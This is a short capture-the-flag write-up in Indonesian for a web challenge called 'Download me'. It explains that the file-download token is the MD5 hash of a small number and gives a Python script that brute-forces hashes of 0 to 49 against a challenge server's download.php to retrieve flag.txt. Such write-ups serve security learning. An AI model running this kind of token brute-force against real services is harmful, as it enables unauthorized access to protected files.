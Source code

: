 # Download me

diberikan sebuah web beserta dengan pengecekan token<br>
<img src="web1.png">
asumsi adalah token merupakan size dari file txt tsb<br>
bruteforce dengan intruder attack md5hash 1 - 50<br> 
<img src="bisa.png">

untuk script<br>
```
import hashlib,requests

url = "http://165.22.22.11:25632/download.php?file=flag.txt&token="

for i in range(50):
        print i
        bf = hashlib.md5(str(i).encode()).hexdigest()
        hasil = requests.get(url+bf)
        if "Invalid" not in hasil.text :
                print hasil.text

#print hashlib.md5("34".encode()).hexdigest()

```
credit to fauzan
